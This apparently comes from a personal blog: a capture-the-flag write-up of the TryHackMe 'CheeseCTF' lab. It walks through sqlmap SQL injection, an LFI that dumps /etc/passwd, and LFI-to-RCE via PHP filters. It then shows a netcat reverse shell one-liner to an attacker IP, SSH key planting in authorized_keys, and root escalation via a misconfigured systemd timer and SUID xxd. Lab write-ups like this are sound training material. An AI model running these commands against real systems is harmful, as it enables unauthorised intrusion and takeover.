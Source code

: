 +++
categories = ["tryhackme", "easy"]
date = "2025-07-04"
description = "CheeseCTF Writeup"
featured = "/writeups/tryhackme/cheesectf/1.png"
featuredalt = ""
featuredpath = "date"
linktitle = ""
title = "[THM] CheeseCTF"
slug = "cheesectf"
type = "post"
+++

[Link to the room](https://tryhackme.com/r/room/cheesectfv10)

## Enumeration

Let's start by running a basic nmap scan to check for open ports in the machine.

```bash
nmap cheesectf.thm
```
![](/writeups/tryhackme/cheesectf/1.png)

Nmap shows a lot of open ports, so it seems sensible to try to access a potential web server.

![](/writeups/tryhackme/cheesectf/2.png)

We can test the HTTP form on the login.php endpoint by trying to look for a SQL injection.

![](/writeups/tryhackme/cheesectf/3.png)

## Exploitation

### SQL injection via SQLMap

After checking the POST request sent to login.php (from our Network tab in our web browser), we can see that the login data is sent to /login.php via two POST parameters called username and password. We should definitely check out SQLMap to test for SQL injection in these parameters:

![](/writeups/tryhackme/cheesectf/4.png)

```bash
sqlmap -u http://cheesectf.thm --data "username=1&password=1"
```

![](/writeups/tryhackme/cheesectf/5.png)

As can be seen above, SQLMap shows that the POST parameter 'username' is vulnerable to a time-based SQL injection. Also, upon trying this injection SQLMap gets a 302 redirection to a new endpoint. Let's copy this URL to our web browser.

### Elevating LFI to RCE using PHP filters

Now that we're in the /secret-script.php endpoint, we can test the 'file' GET parameter for an LFI vulnerability. This way, we can actually dump /etc/passwd.

```
http://cheesectf.thm/secret-script.php?file=/etc/password
```

```txt
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
comte:x:1000:1000:comte:/home/comte:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
```

After trying to access other files such as Apache's access.log in order to test for log poisoning, I wasn't successful. This is when I decided to elevate to RCE using PHP filters. I found this URL that contained a Python script that was certainly useful:

[Link here!](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters)

After modifying the script we get a successful Proof of Concept:

![](/writeups/tryhackme/cheesectf/6.png)

Now that our RCE vulnerability seems exploitable, let's run a NetCat listener in our local machine and attempt to get a reverse shell:

```bash
nc -lvnp 2509 # on the attacker
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.0.5 2509 >/tmp/f # on the script
```

## Post-Exploitation

We have successfully exploited the machine, so now we can stabilize our shell (optional) and do some reconnaissance looking for privilege escalation vectors.

[More info here!](https://saeed0x1.medium.com/stabilizing-a-reverse-shell-for-interactive-access-a-step-by-step-guide-c5c32f0cb839)

Nothing seems especially suspicious, so let's get LinPeas into the machine and run it:

![](/writeups/tryhackme/cheesectf/7.png)

After running LinPeas, there are two things we should definitely check out:

![](/writeups/tryhackme/cheesectf/8.png)

- We're allowed to write to /etc/systemd/exploit.timer, although for now there is nothing we can do.

- We have write privileges on Comte's authorized keys (/home/comte/.ssh/authorized_keys), so we can generate a pair of SSH keys and login as Comte.

### Escalating to the comte user - generating SSH keys

To generate our keys:

```bash
ssh keygen -t rsa
```

Now, let's save the public key in Comte's authorized keys:

```bash
cat id_rsa.pub > /home/comte/.ssh/authorized_keys
```

Now let's copy our SSH private key to our local machine, give it the approppriate permissions and use it to login via SSH:

```bash
chmod 400 id_rsa
ssh -i id_rsa comte@cheesectf.thm
```

### Escalating to the root user - abusing badly configured services

Now we're Comte! Let's get the user flag and check what we can run as sudo:

![](/writeups/tryhackme/cheesectf/9.png)

Curiously enough, we have write privileges to exploit.timer. Attempting to use sudo to run the exploit.timer service throws an error:

![](/writeups/tryhackme/cheesectf/10.png)

After using cat to check out exploit.service, we can see that what the service does is copy /usr/bin/xxd to the opt directory and make it an SUID binary, something we can definitely exploit in the near future.

But for now, after using cat on the exploit.timer file, we can see that the OnBootSec option has no value, probably why it's throwing an error:

```
[Unit]
Description=Exploit Timer
```

```
[Timer]
OnBootSec=
```

```
[Install]
WantedBy=timers.target
```

Thankfully this error is fixed by setting OnBootSec=0, so now if we restart the daemon and go to the opt directory, we can see a new SUID binary.

### Escalating to the root user - abusing badly configured services

![](/writeups/tryhackme/cheesectf/11.png)

After checking out GTFObins, we can see that xxd as an SUID binary allows us to get both read and write privileges over all root-owned files. We have two options

- Either guessing that the flag is in /root/root.txt and reading it right away.

- Or generating a pair of SSH keys and saving the public key to /root/.ssh/authorized_keys, allowing us to log in as root via SSH (as we did before with the Comte user).

I'll do the second option, as the purpose of boot2root is to actually root the machine, rather than just grabbing the root flag.

```bash
cat /home/comte/.ssh/authorized_keys | /opt/xxd | /opt/xxd -r - /root/.ssh/authorized_keys
```

Now, let's log in as root:

```bash
ssh -i id_rsa root@cheesectf.thm
```

We can now grab the root flag and so we have rooted this machine!